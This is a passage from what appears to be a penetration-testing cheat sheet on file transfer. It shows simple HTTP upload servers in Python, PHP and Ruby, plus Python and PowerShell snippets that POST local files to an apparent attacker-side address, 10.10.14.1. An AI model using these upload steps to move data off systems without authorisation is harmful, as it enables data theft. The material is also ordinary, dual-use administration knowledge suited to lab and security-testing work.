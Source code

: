 ### Python Upload Server
```python
# uploadserver.py
import http.server
import socketserver

class HTTPRequestHandler(http.server.SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        with open("uploaded_file", "wb") as f:
            f.write(post_data)
        self.send_response(200)
        self.end_headers()

with socketserver.TCPServer(("", 8000), HTTPRequestHandler) as httpd:
    httpd.serve_forever()
```

### PHP
```bash
# Start PHP server
php -S 0.0.0.0:8000
```

### Ruby
```bash
# Start Ruby server
ruby -run -ehttpd . -p8000
```

---

## Upload Operations

### Python Requests (Upload)
```python
import requests

url = "http://10.10.14.1:8000/upload"
files = {'file': open('data.txt', 'rb')}
r = requests.post(url, files=files)
```

### PowerShell Upload
```powershell
# Upload file using Invoke-RestMethod
$FileContent = Get-Content -Path "C:\Temp\data.txt" -Raw
Invoke-RestMethod -Uri "http://10.10.14.1:8000/upload" -Method Post -Body $FileContent
```

---